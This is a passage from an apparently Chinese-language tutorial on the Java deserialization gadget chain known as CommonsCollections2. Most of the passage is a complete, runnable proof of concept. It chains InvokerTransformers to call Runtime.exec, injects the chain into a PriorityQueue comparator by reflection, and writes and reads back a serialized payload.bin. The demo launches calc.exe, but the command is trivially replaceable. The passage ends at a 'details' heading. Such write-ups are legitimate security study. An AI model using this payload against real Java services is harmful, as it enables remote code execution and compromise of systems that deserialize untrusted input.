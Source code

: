 看到了 Transformer 对象，很容易联想到cc1的攻击流程，继续使用 ChainedTransformer 调用 InvokerTransformer 来触发恶意操作。

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

public class CommonCollections2 {
    public static void main(String[] args) throws Exception{
        ChainedTransformer chain = new ChainedTransformer(new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}));

        TransformingComparator comparator = new TransformingComparator(chain);

        PriorityQueue queue = new PriorityQueue(1);
        queue.add(1);
        queue.add(2);

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue,comparator);

        FileOutputStream f = new FileOutputStream("payload.bin");
        ObjectOutputStream fout = new ObjectOutputStream(f);
        fout.writeObject(queue);


        FileInputStream fi = new FileInputStream("payload.bin");
        ObjectInputStream fin = new ObjectInputStream(fi);
        fin.readObject();

    }
}
```

这里我们选择用PriorityQueue来触发`TransformingComparator.compare()`，根据上面的基础知识，我们可以通过反射来设置queue[i]的值来达到控制queue[i]内容的目的，继而触发执行恶意语句。

细节问题：
